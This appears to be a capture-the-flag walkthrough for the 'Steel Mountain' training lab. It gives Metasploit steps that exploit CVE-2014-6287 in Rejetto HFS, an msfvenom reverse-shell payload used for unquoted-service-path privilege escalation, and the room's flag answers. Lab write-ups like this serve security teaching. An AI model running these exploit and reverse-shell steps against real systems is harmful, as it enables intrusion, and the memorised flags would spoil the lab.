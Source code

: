 ![c9030a2b60bb7d1cf4fcb6e5032526d3](https://github.com/user-attachments/assets/1fccd7c7-a3e3-414c-85f9-337b55ee033d)
 
# Steel Mountain Walkthrough
## TASK 1 - Introduction

Who is the employee of the month?

![Screenshot](https://github.com/user-attachments/assets/30f54f4f-514e-4272-8cc1-bfa085274d4d)

(Bill Harper)

## TASK 2 - Initial Access

Scan the machine with nmap. What is the other port running a web server on?

![Firefox_Screenshot_2025-03-26T17-56-36 928Z](https://github.com/user-attachments/assets/28807218-6b07-4918-9432-85ef064207b6)

(8080)

Take a look at the other web server. What file server is running?

Open the port 8080 and notice the file server link.

(Rejetto HTTP File Server)

What is the CVE number to exploit this file server?

When you did research on google, you can find CVE number about Rejetto HTTP File Server 2.3: https://www.exploit-db.com/exploits/39161

(2014-6287)

Use Metasploit to get an initial shell. What is the user flag?

1) msfconsole
2) search 2014-6287
3) use 0
4) show options

![Firefox_Screenshot_2025-03-26T20-44-31 403Z](https://github.com/user-attachments/assets/495e8e23-9302-487f-beeb-a6046e0f6b0f)

5) We have to set RHOSTS and RPORT

set RHOSTS $IP

set RPORT 8080

6) set payload windows/meterpreter/reverse_tcp
7) run
8) C:\Users\bill\Desktop // cat user.txt

![Firefox_Screenshot_2025-03-26T21-20-35 228Z](https://github.com/user-attachments/assets/b6350317-e3d9-4aaf-b85b-2f718cd37ddb)

(b04763b6fcf51fcd7c13abc7db4fd365)

## TASK 3 - Privilege Escalation

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

1) Download the script (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

2) Upload the script from meterpreter session

![Untitled](https://github.com/user-attachments/assets/0f37002b-a7e0-41a2-9817-594243222e8c)

3) Load powershell in meterpreter (type "load powershell" into meterpreter)

4) Type powershell_shell

5) Type . .\Powerup.ps1

6) Type Invoke-AllChecks

![Untitled](https://github.com/user-attachments/assets/d880fac8-5106-4520-8b72-e02d993c38dd)

(AdvancedSystemCareService9)

What is the root flag?

1) Use msfvenom to generate a reverse shell as an Windows executable. (msfvenom -p windows/shell_reverse_tcp LHOST=your_ip LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe)

![Untitled](https://github.com/user-attachments/assets/288ddbd5-7d64-404c-9692-fffcaede24c0)

2) Open shell and stop the service which using ASCService.exe

sc stop AdvancedSystemCareService9

![Untitled](https://github.com/user-attachments/assets/573a1849-6339-43c0-b846-9610b767b322)

After that exit the shell.

3) Go to C:\Program Files (x86)\IObit\Advanced SystemCare and upload ASCService.exe file which we generated.

![adsa](https://github.com/user-attachments/assets/25367f9a-79ac-4166-9acb-387c55ae4dd0)

4) We need to listen our reverse shell. Open new terminal and ...

![adsa](https://github.com/user-attachments/assets/e3ad13f7-1405-42db-a0de-d106bd728ed3)

5) Return to meterpreter, open shell and "sc start AdvancedSystemCareService9"

![adsa](https://github.com/user-attachments/assets/7cbb3251-f21e-4e2f-a35c-c7ec4ddc4f89)

6) After that return to netcat terminal which we listining our reverse shell

![adsa](https://github.com/user-attachments/assets/00fa06a6-da7a-4915-8cc4-61b7f4da7074)


(9af5f314f57607c00fd09803a587db80)

## TASK 4 - Access and Escalation Without Metasploit

What powershell -c command could we run to manually find out the service name? 

(powershell -c "Get-Service")




